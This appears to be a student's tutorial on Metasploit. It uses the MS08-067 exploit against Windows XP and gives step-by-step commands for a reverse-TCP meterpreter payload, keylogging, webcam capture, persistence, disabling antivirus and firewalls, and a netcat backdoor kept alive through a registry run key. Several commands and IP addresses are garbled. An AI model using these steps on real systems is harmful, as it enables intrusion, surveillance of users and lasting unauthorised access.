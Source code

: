William Dittman
Metasploit Instructions
Metasploit is a software tool used for using exploit to test the vulnerability of a computer or server and uses the exploits to gain access to things that had restricted access. This helps computer users understand how defenseless their computer is and important it is that they should fix it. It also allows the users to understand the importance of security. The needed knowledge and skills that come with Metasploit is the ability to use nmap and exploit scanners because the Metasploit doesn’t actually scan for vulnerabilities instead it can only exploit. Without the nmap or exploit scanners you cannot actually use Metasploit because you will not know what exploit to actually use. One should also be able to use and understand some sort of command line in linux or Windows. The necessary tools for Metasploit are a vulnerability scanner of some sort to find out what exploits you need.  Another virtual machine or a computer that belongs to the Metasploit user is also necessary since it is illegal to use Metasploit to exploit and gain access to computers that they are not allowed to access. One must download and install Metasploit.  The steps that I will cover in this are the ability to use the Exploit database and find the exploit that is needed, I will move to how to use the exploit and how to execute said exploit and lastly I will cover how to make use of said exploit by either metepreter or command line.
	If you were to find your exploit from a using an exploit scanners you can skip this step. Otherwise use nmap to find out what type of OS the system you are trying to exploit uses, and see if it is unpatched version of the OS.  Once you have found out what OS it is you should look up what exploits can be used for this system’s vulnerability. For example say you are using windows XP on your computer and port 445 is open.  You could google different exploits that are used for windows XP service that are available in Metasploit.  We find that there is an exploit called MS08-67 for windows. If you were using an exploit scanner it would tell you vulnerability on that system and you wouldn’t need to google what it is.  Instead one could find out much about the different exploits from info provided by the scanner. Once you find out what the name of the exploit is you now can use Metasploit. Firstly you want to use the Metasploit console and enter the line “use exploit/” and because we are using windows we will use “use exploit/windows/ “ After this we need to know what kind of exploit this is luckily though we already know what kind of exploit this from the google search or the exploit scan. Once we get this down we can now use tab to list the number of exploits that you that windows has. But since we already know which exploit we are going to use we use the command “use exploit/windows/smb/ms08_067_netapi”. 
	After getting to the exploit we need there are multiple things we must set up before we can use the exploit against the vulnerable computer. To do this we use the show options command in Metasploit which will give us three options for the MS08-67 exploit, but we will only be using the first two.  The first option is RHOST which is the address of the host. We use the command “set RHOST 127.0.0.0.1” with the correct IP address of the user you are using. The second option is PHOST with this we must use an open port that the target computer has open. We set this to port 445 because that is the port that is used for this type of exploit. One would have figured this out from previous steps such as the nmapping or exploit scan. 
	The next step in the process is to set the payload. With this we use the show payload command which shows every type of payload we can use for this exploit. For this one we will use the metepreter reverse tcp . This allows us to use the metepreter function of Metasploit which has many different tools and built in scripts. So to do this we the command “set  payload windows/metepreter/reverse-tcp”. This step sets the payload to activate we you use the run command. Before you can run it you must set the properties for the payload. For this we use show payload options and one can see that there is two different options. The first option is LHOST which we want to set to your ip address. To change this we use the “set LHOST 127.0.0.1.”. The second option is the port you want to use to connect to the exploited machine.  To change this we use “set LPORT 6666”. After this is all done and it done correctly we should be able to run the exploit against the vulnerable.
	If everything is working correctly the exploit should work and the payload should drop. We should have access to the metepreter. At this point there a few things we can and should do. First thing we want to do is check the system we are running on. There are multiple things you can do now with this now which I will split into multiple sections.
	The first section will be about getting information about the user from metepreter.  The first thing we can run is the sysinfo command to get the system information of the computer that you are running. This will be extremely helpful if you were unaware of how patched the XP machine is. The next thing we can do is use a keylogger to get passwords or personal information about the user. We do this by using the command “keyscan” into the metepreter. With this it will scan for keystrokes and when we want to see what the user has typed in we use the “key_dump” to see what the user has typed in. Another thing you can do on the machine is see the user screen. This is done through the command “getgui –u username –p password”. This will enable rdp if it has been disabled and will allow you to get access to the screen of the computer. The last thing I will include in getting information about the user is the webcam command. To see if the computer has any webcams we use the command webcam_list and if there is one we can use the command “webcam_snap” which will take a picture of the person using the computer.
	The next section I will talk about is how to maintain access to the computer. The next thing you should do is use the metepreter persistence which will allow you to have access to the system under certain situations.  To do this we use the command “run persistence –X –i  5 –p 6665 –r  127.0.0.1”. The –X will connect you to the computer whenever you have metepreter open and the system is booted up. The –i is the intervals that it will try to connect to the host. The –p is for the port that you will be connecting to and the –r is used for your ip address. This will allow you connect the infected machine even after the user has shut down when the user turns it back on instead of kicking you off for good. Let also say we want to make sure we don’t get kicked off the machine by an antivirus, we could run the command “killav” which can disable many anti viruses. We can also use the command “run getcountermeasures” to see if we can disable firewalls of the infected computer. The last thing you might want to do is install a backdoor to get to the computer if the persistence command fails. This can be done with the by first uploading netcat to the remote system using the command “upload /usr/share/windows-binaries/nc.exe C:\windows\system32” which will put the netcat executable onto the vulnable machine. The next thing we do is to allow it to run at every time the computer starts up so we use the command “reg setval -k HKLM\software\microsoft\windows\currentversion\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 455 -e cmd.exe'”. This will make the netcat start everytime with port 455 open.  The last thing we need to is make sure the firewall will enable the netcat connection to go through ( which could be avoided if you disabled the firewall with getcountermeasures). We do this by using the command “netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL” which will open up the port to be accessed through the firewall. With the backdoor installed you no longer need to use metesploit to log into the vulnerable machine. Instead you need only to use “nc -v 127.0.0.01 455” in your commandline to connect to the machine that you have infected. 
	While this is only one of the exploits that you can to gain access to computer the purpose of the exploit is many of things taught in these instructions can be substituted for other exploits or scripts. So even though it doesn’t cover all of the types of instructions many things can be learned from just one example of an exploit. I choose the MS08-67 exploit because it was easy and allows for remote access while some exploits do not. Hopefully these instructions will help you understand Metasploit better and how to be safer and more proficient with computers.
